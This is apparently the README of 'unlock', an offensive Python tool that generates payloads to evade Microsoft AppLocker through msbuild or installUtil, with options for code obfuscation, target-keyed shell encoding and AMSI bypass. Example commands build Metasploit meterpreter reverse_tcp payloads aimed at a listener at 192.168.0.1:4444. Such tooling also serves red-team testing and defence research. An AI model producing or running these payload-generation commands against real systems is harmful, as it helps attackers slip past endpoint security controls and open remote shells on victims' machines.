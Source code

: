 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64] [--noamsi]  

## Arguments:
--output FILENAME    Output file name without extension  
--framework FWV      Framework NET version  
--payload PAYLOAD    Payload in MSF syntax  
--lhost LHOST        Local host for reverse shell  
--lport LPORT        Local port for reverse shell  
--method METHOD      Evasion method: msbuild or installUtil  
--enaobf             Enable CS code obfuscation  
--encshell ENCSHELL  Encode shell with: yyyymmdd, yyyymm, hostname, or domain  
--enctext TEXT       Text to xorencode payload with, used with hostname or domain  
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport)  
--x64                Set if your custom payload is x64  
--noamsi             Add code to bypass AMSI  

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil  
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell yyyymm --noamsi  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell hostname --enctext SECRETARY  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell domain --enctext CONTOSO  
